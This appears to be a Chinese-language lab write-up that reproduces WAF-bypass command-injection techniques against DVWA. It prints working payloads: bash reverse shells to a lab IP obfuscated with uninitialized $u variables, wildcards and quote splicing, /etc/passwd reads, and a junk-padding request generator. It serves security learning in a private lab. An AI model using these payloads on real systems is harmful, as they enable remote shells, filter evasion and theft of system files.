







## 先要 : 基于大佬文章[bypass waf测试_rce](https://www.cnblogs.com/xiaoxin07/p/18502670#%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87)在dvwa的复现尝试
### 文章的一些手法清单总结 : 
1. `$u` 未初始化变量
2. 通配符
3. 引号拼接 `'c'a't'` / `"c"a"t"`
4. `$*` 空变量
5. 缓冲区溢出绕过 (垃圾数据填充)
## 一. 利用`$u` 未初始化变量 反弹shell
>原本以为雷池没有启动, 让我的`ls`运行了, 最后发现, 雷池好像不拦截`ls`.而`127.0.0.1|cat /etc/passwd`则会拦截.
### 正戏开始 : 

>宿主机是win11

#### 第 1 步 : phpstudy 开放 3333 端口
根目录 `D:\phpstudy_pro\WWW\3333`，里面放了 `shell.sh`
	shell.sh的内容
```bash
	bash -i >& /dev/tcp/192.168.43.1/4444 0>&1
```

宿主机 IP 是 `192.168.43.1`，虚拟机访问 `http://192.168.43.1:3333/shell.sh` 就能把这个文件拉下来。

#### 第 2 步 : netcat 监听 4444 端口
```
ncat.exe -lvp 4444
```



#### 第 3 步 : DVWA 输入 payload
```bash
127.0.0.1|/bin$u/bash$u -c$u "bash$u -i$u >&$u /dev$u/tcp$u/192.168.43.1/4444 0>&1$u"
```
回到netcat 监听的cmd窗口即可发现shell反弹成功,且可以进行命令交互


~~(后面发现好像可以不用phpstudy, 算鸟, 不改了)~~
### 一些要注意的

```note
/bin$u/bash$u          ✅ 展开成 /bin/bash
$u/bin/bash            ❌ $u/bin 会被解析成"变量名 u/bin"，后面的内容被吞
/dev$u/tcp$u/IP        ✅
$u192.168.43.1         ❌ IP 直接丢失，连不出去
```

## 二. 通配符(`*` and `?`)

### 1. 读取文件
`127.0.0.1|cat /etc/passwd` --> 拦截
`127.0.0.1|/b?n/c?t /???/pass*` --> 成功绕过`


### 2. 反弹shell
1. netcat监听4444端口
2. `127.0.0.1|/b?n/b*h -c "/b?n/b*h -i >& /dev/tcp/192.168.43.1/4444 0>&1"`


## 三. 引号拼接

### 1. 读取文件


### 2. 反弹shell
1. netcat监听4444端口
2. `127.0.0.1|'b'a's'h -c "'b'a's'h -i >& /dev/tcp/192.168.43.1/4444 0>&1"`

## 四. `$*` 空变量

 ~~作者未复现  :( ~~

## 五. 缓冲区溢出绕过 (垃圾数据填充)
1. 参考上一篇文章的垃圾数据填充, 
   用python生成payload
	```bash
	python -c "open('exec_pad.txt','w').write('pad=' + 'a'*1150000 + '&ip=127.0.0.1%7Ccat%20/etc/passwd&Submit=Submit')"
	```
2. bp抓包, 查看响应